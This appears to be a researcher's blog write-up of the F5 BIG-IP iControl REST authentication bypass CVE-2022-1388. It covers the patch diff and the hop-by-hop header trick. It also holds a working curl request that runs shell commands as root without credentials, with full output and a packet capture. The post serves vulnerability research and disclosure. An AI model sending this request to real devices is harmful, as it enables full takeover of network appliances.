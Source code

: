 ```yaml
---
title: "F5 BIG-IP iControl REST vulnerability CVE-2022-1388"
date: 2022-05-09T16:42:00+01:00
author: "Matus Bursa"
tags: ["F5", "CVE-2022-1388", "BIG-IP", "REST", "API"]
categories: ["vulns"]
---
```


Good afternoon to every security researcher. I would like to share my experience of finding announced vulnerability by internal F5 security team and writing the exploit for [CVE-2022-1388](https://support.f5.com/csp/article/K23605346).

You can read more about this vulnerability on [thehackernews](https://thehackernews.com/2022/05/f5-warns-of-new-critical-big-ip-remote.html) or [helpnetsecurity](https://www.helpnetsecurity.com/2022/05/09/cve-2022-1388-poc-exploitation/). [iControl REST](https://clouddocs.f5.com/api/icontrol-rest/) is an API for interaction between scripts and *F5 device*, used to manage and control that device automatically.  

Based on the details of the *mitigation*, the problem should be somewhere in the `Connection: ` header.

### mitigation
```apache
<If \"%{HTTP:connection} =~ /close/i \">
RequestHeader set connection close
</If>
<ElseIf \"%{HTTP:connection} =~ /keep-alive/i \">
RequestHeader set connection keep-alive
</ElseIf>
<Else>
    RequestHeader set connection close
</Else>
```

### inside the library

If we use `diff` and `strings` commands, we can see which strings were changed/added to the library, so I decided to download one from the vulnerable version `BIGIP-16.1.0-0.0.19` and one from the fixed version `BIGIP-16.1.2.2-0.0.28`

```bash
$ diff  <(strings mod_auth_pam.so_new ) <(strings mod_auth_pam.so_old)
...
259,261d243
< Connection
< close
< keep-alive
268d249
...
```

### header Connection

We know that in F5, there is `Jetty` server without authentication on `TCP/8100`, which we can hit for example from `localhost` (F5 device). We also know that there is `Apache` which does the *Authentication* for `Jetty`. We also know that we can abuse [hop-by-hop header](https://book.hacktricks.xyz/pentesting-web/abusing-hop-by-hop-headers) there, but we don't know which header we should pass to the `Connection` header. For more details about hop-by-hop headers you can read [RFC2616](https://datatracker.ietf.org/doc/html/rfc2616#section-13.5.1)


### exploit

After couple of hours and tries I found the requirements to make the exploit functionable:
- `X-F5-Auth-Token` header must be present (that's a requirement for Apache sends request to Jetty backend)
- `Connection` header *must* include `X-F5-Auth-Token` (based on hop-by-hop headers this will delete `X-F5-Auth-Token` from the request sended to the backend)
- `Host` header *must* be `localhost` or `127.0.0.1` (Jetty either checks this value or you can put `X-Forwarded-Host` to `Connection` header to make `X-Forwarded-Host` header invisible for Jetty)
- `Authentication` header *must* be `admin` user

*curl*
```bash
$ curl -vvv -sk -X POST -H 'Content-Type: application/json' 'https://admin@192.168.52.10/mgmt/tm/util/bash' --data '{"command": "run" , "utilCmdArgs": " -c id
" }' -H 'X-F5-Auth-Token: -' -H 'Connection: close, X-F5-Auth-Token' -H 'Host: localhost'
*   Trying 192.168.52.10:443...
* Connected to 192.168.52.10 (192.168.52.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*  CAfile: /etc/ssl/cert.pem
*  CApath: none
* (304) (OUT), TLS handshake, Client hello (1):
* (304) (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES128-GCM-SHA256
* ALPN, server did not agree to a protocol
* Server certificate:
*  subject: C=--; ST=WA; L=Seattle; O=MyCompany; OU=MyOrg; CN=localhost.localdomain; emailAddress=root@localhost.localdomain
*  start date: May  7 08:55:32 2022 GMT
*  expire date: May  4 08:55:32 2032 GMT
*  issuer: C=--; ST=WA; L=Seattle; O=MyCompany; OU=MyOrg; CN=localhost.localdomain; emailAddress=root@localhost.localdomain
*  SSL certificate verify result: self signed certificate (18), continuing anyway.
* Server auth using Basic with user 'admin'
> POST /mgmt/tm/util/bash HTTP/1.1
> Host: localhost
> Authorization: Basic YWRtaW46
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Type: application/json
> X-F5-Auth-Token: -
> Connection: close, X-F5-Auth-Token
> Content-Length: 45
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Tue, 10 May 2022 05:18:22 GMT
< Server: Jetty(9.2.22.v20170606)
< X-Frame-Options: SAMEORIGIN
< Strict-Transport-Security: max-age=16070400; includeSubDomains
< Content-Type: application/json; charset=UTF-8
< Allow:
< Pragma: no-cache
< Cache-Control: no-store
< Cache-Control: no-cache
< Cache-Control: must-revalidate
< Expires: -1
< Content-Length: 168
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
< Connection: close
<
* Closing connection 0
* TLSv1.2 (OUT), TLS alert, close notify (256):
{"kind":"tm:util:bash:runstate","command":"run","utilCmdArgs":" -c id","commandResult":"uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0\n"}
```

*tcpdump* on F5 device
```bash
$ tcpdump -i lo -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504F5354'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 65535 bytes
22:18:22.457963 IP localhost.localdomain.59668 > localhost.localdomain.xprint-server: Flags [P.], seq 2917914269:2917914711, ack 2716646422, win 342, options [nop,nop,TS val 245887457 ecr 245887457], length 442
E...'.@.@..........................V.......
........POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost:8100
Authorization: Basic YWRtaW46
User-Agent: curl/7.79.1
Accept: */*
Content-Type: application/json
Local-Ip-From-Httpd: 192.168.52.10
X-F5-New-Authtok-Reqd: false
X-Forwarded-Proto: http
X-Forwarded-For: 192.168.52.1
X-Forwarded-Host: localhost
X-Forwarded-Server: localhost.localdomain
Connection: Keep-Alive
Content-Length: 45

{"command": "run" , "utilCmdArgs": " -c id" }
22:18:22.461910 IP localhost.localdomain.50416 > localhost.localdomain.48470: Flags [P.], seq 3235108301:3235108827, ack 1593436189, win 3631, options [nop,nop,TS val 245887461 ecr 245836911], length 526
E..B.d@.@.PO...........V....^....../.7.....
......,oPOST /tmapi_mapper/util/bash HTTP/1.1
Content-Type: application/json
Authorization: Basic YWRtaW46
X-Forwarded-For: 192.168.52.1
X-F5-Config-Api-Status: 1907
Referer: 192.168.52.1
User-Agent: com.f5.rest.common.RestRequestSender
Accept: */*
Connection: Keep-alive
X-Forwarded-Proto: http
X-Forwarded-Host: localhost
X-F5-New-Authtok-Reqd: false
Local-Ip-From-Httpd: 192.168.52.10
X-Forwarded-Server: localhost.localdomain
Content-Length: 45
Host: localhost:48470

{"command": "run" , "utilCmdArgs": " -c id" }
```

That's all from my side, you can look at python [exploit](https://github.com/horizon3ai/CVE-2022-1388) from [Horizon3Attack team](https://twitter.com/Horizon3Attack) or read their [blog: F5 iControl REST vulnerability.](https://www.horizon3.ai/f5-icontrol-rest-endpoint-authentication-bypass-technical-deep-dive/)

### twitter story

{{< tweet BursaMatus 1523379163914137600 >}}

